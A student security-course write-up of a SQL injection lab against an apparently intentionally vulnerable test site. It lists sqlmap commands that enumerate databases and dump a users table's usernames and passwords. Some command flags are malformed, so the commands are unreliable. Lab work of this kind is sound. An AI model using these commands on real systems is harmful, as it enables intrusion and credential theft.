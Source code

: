 # COMP421-InfoSec Assignment 1
# Hamza Asaad 231450993

## Pre-Requisite Steps Taken
- Installation of ```sqlmap``` on Mac Terminal using the command ```brew install sqlmap```.
- Changed MacOS terminal from ```zsh``` to ```bash``` due to issues with ```sqlmap``` on zsh.

## Steps Performed for SQL Injection Attack
1. Open website ```vulnweb.com``` and proceed to Acuart sub domain ```http://vulnweb.com```.
2. To proceed we must find a link which makes a query paramter request to the SQL database on the backend as such we can browse to the 'artist' tab and click on one of the three links leading us to the page with the link ```http://testphp.vulnweb.com/artists.php?artist=1``` which does indeed contain a query param.
3. We can confirm our request to a SQL DB by appending a quotation at the end and seeing the result ```http://testphp.vulnweb.com/artists.php?artist=1'``` .
4. Now that we have our link and confirmed it uses a SQL based DB we can perform the command ```sqlmap -u testphp.vulnweb.com/artists.php?artist=1 --dbs``` to find its databases.
5. Now we can further find tables within these found databases using the command ```sqlmap -u testphp.vulnweb.com/artists.php?artist=1 --D acuart tables```.
6. We will find 8 tables and focus our attention to the ```users``` table and further use the command ```sqlmap -u testphp.vulnweb.com/artists.php?artist=1 --D acuart -T users columns``` and see the columns within the ```user``` table.
7. Now we will observe 8 columns and target the ```uname``` and ```pass``` column and dump their respective data with the following commands:
   - ```sqlmap -u testphp.vulnweb.com/artists.php?artist=1 --D acuart -T users -C uname --dump``` 
   - ```sqlmap -u testphp.vulnweb.com/artists.php?artist=1 --D acuart -T users -C pass --dump```
8. We will find both commands result with us finding ```test``` as both the username and password for the admin panel of the website.

With this we have successfully carried out our SQL Injection Attack resulting in us finding the ```username``` and  ```password``` for the admin panel of the website. Observing the sidebar on the website we can click the ```Sign Up``` button use the username and password we have discovered to Log In.

## List Of Commands Executed
1. ```sqlmap -u testphp.vulnweb.com/artists.php?artist=1 --dbs```
2. ```sqlmap -u testphp.vulnweb.com/artists.php?artist=1 --D acuart tables```
3. ```sqlmap -u testphp.vulnweb.com/artists.php?artist=1 --D acuart -T users columns``` 
4. ```sqlmap -u testphp.vulnweb.com/artists.php?artist=1 --D acuart -T users -C uname --dump```
5.  ```sqlmap -u testphp.vulnweb.com/artists.php?artist=1 --D acuart -T users -C pass --dump```




